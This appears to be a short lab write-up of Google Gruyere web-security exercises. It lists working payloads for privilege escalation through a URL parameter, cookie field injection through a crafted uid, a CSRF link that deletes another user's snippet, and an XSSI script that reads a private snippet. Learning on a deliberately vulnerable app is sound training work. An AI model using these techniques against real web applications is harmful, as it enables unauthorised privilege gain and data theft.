 # Client State Manipulation

## Escalation of Privilege

<https://google-gruyere.appspot.com/501416180224244987724044863591161268200/saveprofile?action=update&is_admin=True&uid=applesauce>

## Cookie Manipulation

"hash|foo|admin|author||author" but this didn't work.

/saveprofile?action=new&uid=administrator|admin|author&pw=secret < this thing worked>

## Cross Site Request Forgery (CSRF)

### XSRF/CSRF Challenge

<a href="https://google-gruyere.appspot.com/350088668569451251317370671584224987058/deletesnippet?index=0"> Click Me </a>

I put that on another user's snippet, now whichever user will click that, it will delete the first snippet from that user's snippet list. [Sneaky Sneaky!]

## Cross Site Script Inclusion (XSSI/CSSI)

```JS
<script>
function _feed(s) {
  alert("Your private snippet is: " + s['private_snippet']);
}
</script>
<script src="https://google-gruyere.appspot.com/350088668569451251317370671584224987058/feed.gtl"></script>
```

So basically I wrote a feed.html file, it works to load the content but cookie is blocked, because of chrome's security.
